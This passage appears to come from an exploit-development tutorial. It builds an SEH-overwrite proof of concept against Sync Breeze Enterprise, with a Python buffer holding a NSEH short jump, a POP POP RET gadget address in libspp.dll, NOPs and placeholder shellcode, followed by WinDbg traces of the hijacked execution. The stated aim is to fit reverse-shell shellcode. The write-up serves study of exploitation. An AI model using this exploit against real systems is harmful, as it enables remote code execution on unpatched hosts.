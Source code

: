 Maybe we can fit a small shellcode, but it's better to expand the buffer size to put a reverse shell shellcode.

Update our PoC adding a shellcode variable to expand our buffer size and some NOPs instruction after our POP POP RET instructions.

```python
...
size = 1000

shellcode = b"\x43" * 400

inputBuffer = b"\x41" * 124
inputBuffer += pack("<L", (0x06eb9090)) # (NSEH)
inputBuffer += pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer += b"\x90" * (size - len(inputBuffer) - len(shellcode))
inputBuffer += shellcode
...
```

Run the PoC, set a breakpoint to the P/P/R, continue the execution flow, single step since reaching the next instruction of our short jump. Then see the TEB structure.

```bash
0:009> bp 0x1015a2f0
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libspp.dll

0:009> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f0 esp=007bf440 ebp=007bf460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax

0:009> t
eax=77705b32 ebx=00000000 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=1015a2f1 esp=007bf444 ebp=007bf460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx

...

0:009> t
eax=77705b32 ebx=007bf540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=007bff46 esp=007bf44c ebp=007bf460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
007bff46 eb06            jmp     007bff4e

0:009> t
eax=77705b32 ebx=007bf540 ecx=1015a2f0 edx=77705b50 esi=00000000 edi=00000000
eip=007bff4e esp=007bf44c ebp=007bf460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
007bff4e 90              nop

0:009> !teb
TEB at 0036d000
    ExceptionList:        007bf454
    StackBase:            007c0000
    StackLimit:           007be000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0036d000
    EnvironmentPointer:   00000000
```